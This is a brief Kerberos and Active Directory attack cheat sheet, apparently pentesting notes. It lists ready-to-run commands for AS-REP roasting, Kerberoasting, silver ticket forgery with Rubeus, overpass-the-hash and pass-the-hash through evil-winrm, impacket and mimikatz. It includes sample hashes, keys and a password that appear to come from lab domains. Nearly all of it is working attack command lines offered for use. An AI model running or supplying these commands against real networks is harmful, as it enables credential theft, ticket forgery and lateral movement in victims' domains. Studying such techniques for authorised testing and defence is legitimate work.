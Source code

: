 Kerberos
========================

AS-REP Roasting
```
impacket-GetNPUsers -request domain/ -usersfile usernames.txt -dc-ip <hostname>
```

## Kerberoasting
```
impacket-GetUserSPNs -request domain/user:password -dc-ip <hostname>
```
## Silver Ticket

```
rubeus.exe silver /service:cifs/dc1.ignite.local /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /ldap /creduser:ignite.local\Administrator /credpassword:Ignite@987 /user:harshitrajpal /krbkey:EA2344691D140975946372D18949706857EB9C5F65855B0E159E54260BEB365C /krbenctype:aes256 /domain:ignite.local /ptt
```

## Overpass the hash

    impacket-getTGT -hashes :f6b7160bfc91823792e0ac3a162c9267 HTB.LOCAL/Administrator -dc-ip 10.10.10.103
    
    cp user.ccache /tmp/krb5cc_0
    export KRB5CCNAME=/tmp/krb5cc_0
    
    klist

## Pass the hash

### Impacket and evil-winrm
```
evil-winrm -i <hostname> -u user -H lmhash:nthash
impacket-psexec user@<hostname> -hashes lmhash:nthash
impacket-smbexec user@<hostname> -hashes lmhash:nthash
impacket-wmiexec user@<hostname> -hashes lmhash:nthash
```

### Rubeus and Mimikatz
```
sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash>

```
